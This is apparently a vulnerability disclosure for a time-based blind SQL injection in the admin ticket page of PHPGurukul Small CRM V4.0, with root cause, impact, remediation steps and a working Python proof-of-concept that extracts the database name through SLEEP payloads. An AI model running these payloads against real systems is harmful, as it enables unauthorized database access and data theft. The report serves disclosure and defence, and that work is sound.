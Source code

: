 # PHPGurukul Small CRM in PHP V4.0 /crm/admin/manage-tickets.php SQL Injectin

## NAME OF AFFECTED PRODUCT(S)

- Small CRM in PHP

## Vendor Homepage

- [Small CRM in PHP](https://phpgurukul.com/small-crm-php/)

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- YoSheep

### VERSION(S)

- V4.0

### Software Link

- https://phpgurukul.com/?sdm_process_download=1&download_id=10412

## PROBLEM TYPE

### Vulnerability Type

- SQL injection

### Root Cause

* The /crm/admin/manage-tickets.php component remark parameter is directly inserted into SQL statement without proper sanitization or use of prepared statement. Thus, the unsafe practice allows attackers to inject crafted SQL payloads, alerting the intended query logic and executing arbitrary SQL commands in the server.

### Impact

* Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

* During a security assessment of the *Small CRM in PHP*, a critical SQL injection vulnerability was identified in the /crm/admin/manage-tickets.php file. The flaw arises from insufficient validation of the aremark parameter, which is directly inserted into SQL statement. Exploitation of this flaw allows unauthenticated attackers to inject arbitrary SQL statements, gain access to sensitive data, escalate privileges, and potentially gain control of the application environment. Immediate remediation is strongly advised to mitigate the risk of exploitation.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* Time-based blind SQL injection

### Vulnerability location:

* Parameter: remark (POST)

### Proof of Concept Payloads

```python
import requests
import time

# Target URL (vulnerable endpoint)
URL = "http://TARGET-IP/crm/admin/manage-tickets.php"

# Sleep time used in the injection
SLEEP_TIME = 5
# Maximum expected length of database name
DATABASE_LEN_MAX = 32

def send_payload(payload: str) -> bool:
    """
    Send payload and check if the response time indicates a successful injection.
    Returns True if payload triggered a delay (sleep), otherwise False.
    """
    files = {
        "aremark": (None, payload),
        "update": (None, "update"),
        "frm_id": (None, "7"),
    }
    start = time.time()
    try:
        requests.post(URL, files=files, timeout=SLEEP_TIME + 2)
    except requests.exceptions.Timeout:
        # Timeout indicates SLEEP() executed
        return True
    end = time.time()
    return (end - start) > SLEEP_TIME

def get_dblen() -> int:
    """
    Determine the length of the current database name.
    """
    print("[*] Retrieving database name length...")
    payload_len = "123' AND IF(LENGTH(DATABASE())={}, SLEEP({}), 0) AND '1'='1"
    for i in range(1, DATABASE_LEN_MAX + 1):
        if send_payload(payload_len.format(i, SLEEP_TIME)):
            print(f"[+] Database name length: {i}")
            return i
    return 0

def get_char_at(pos: int) -> str:
    """
    Extract the character at position 'pos' in the database name
    using binary search over ASCII values.
    """
    low, high = 32, 126  # Printable ASCII range
    while low <= high:
        mid = (low + high) // 2
        payload = (
            f"123' AND IF(ASCII(SUBSTRING(DATABASE(),{pos},1))>{mid},0,SLEEP({SLEEP_TIME})) AND '1'='1"
        )
        if send_payload(payload):
            # True branch => character <= mid
            high = mid - 1
        else:
            # False branch => character > mid
            low = mid + 1
    return chr(low)

def get_dbname():
    """
    Extract the full database name character by character.
    """
    db_len = get_dblen()
    if not db_len:
        print("[-] Failed to determine database length")
        return ""

    print("[*] Extracting database name...")
    dbname = ""
    for i in range(1, db_len + 1):
        ch = get_char_at(i)
        dbname += ch
        print(f"[+] Found character {i}: {ch}")
    print(f"[+] Database name extracted: {dbname}")
    return dbname

if __name__ == "__main__":
    get_dbname()
```

Screenshot of excution result:

![image-20250828025704152](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250828025704152.png)

## Suggested Remediation

1. **Use Prepared Statements and Parameterized Queries**

   Implement parameterized queries (mysqli or PDO) to ensure user inputs are treated strictly as data, preventing SQL injection.

2. **Implement Input Validation and Sanitization**

   Validate incoming parameters against expected formats (e.g., numeric IDs). Reject or sanitize unexpected input before processing.

3. **Apply the Principle of Least Privilege**

   Restrict the privileges of the database account used by the application. Avoid using high-privilege accounts (e.g., root).

4. **Conduct Regular Security Audits**

   Periodically review source code and perform penetration testing to identify and remediate potential vulnerabilities.

5. **Upgrade Deprecated Libraries**

   Replace legacy mysql_* functions with mysqli or PDO, which provide better security support and long-term maintainability.
